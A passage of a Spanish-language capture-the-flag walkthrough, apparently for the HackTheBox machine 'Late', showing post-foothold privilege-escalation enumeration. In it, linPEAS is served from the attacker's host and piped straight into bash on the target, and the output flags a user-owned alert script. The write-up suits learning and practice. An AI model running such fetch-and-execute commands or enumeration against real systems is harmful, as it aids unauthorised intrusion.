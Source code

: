 Ya nos encontramos dentro de la máquina como el usuario `svc_acc` y podemos visualizar la primer flag (user.txt). Para trabajar más cómodos, hacemos un [Tratamiento de la tty](/posts/tratamiento-tty) y procedemos a enumerar un poco el sistema para escalar privilegios:

```bash
svc_acc@late:~$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
svc_acc@late:~$ sudo -l
[sudo] password for svc_acc: 
svc_acc@late:~$ find / \-perm /4000 2>/dev/null
/usr/sbin/pppd
/usr/sbin/sensible-mda
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/arping
/usr/bin/procmail
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/fusermount
/bin/mount
/bin/su
/bin/ping
/bin/umount
svc_acc@late:~$ 
```

Descargarmos [PEASS-ng](https://github.com/carlospolop/PEASS-ng/releases/tag/20230723-6e7e89ef) para enumerar y ver la forma en la que podemos escalar privilegios.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.156 - - [23/Jul/2023 22:53:47] "GET /linpeas.sh HTTP/1.1" 200 -
```

```bash
svc_acc@late:~$ curl http://10.10.14.2/linpeas.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
...
                            ╚═════════════════════════╝
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path
You own the script: /usr/local/sbin/ssh-alert.sh
/usr/bin/gettext.sh

╔══════════╣ Executable files potentially added by user (limit 70)
2023-07-24+04:54:01.2203263180 /usr/local/sbin/ssh-alert.sh
2022-04-04+13:20:33.4320867080 /usr/local/bin/gunicorn
2022-01-20+13:21:26.1204163440 /usr/local/bin/pytesseract
2022-01-20+13:20:42.9964626730 /usr/local/bin/pip3.6
2022-01-20+13:20:42.9964626730 /usr/local/bin/pip3
2022-01-20+13:20:42.9964626730 /usr/local/bin/pip
2022-01-17+10:18:24.8993280860 /usr/local/bin/flask
```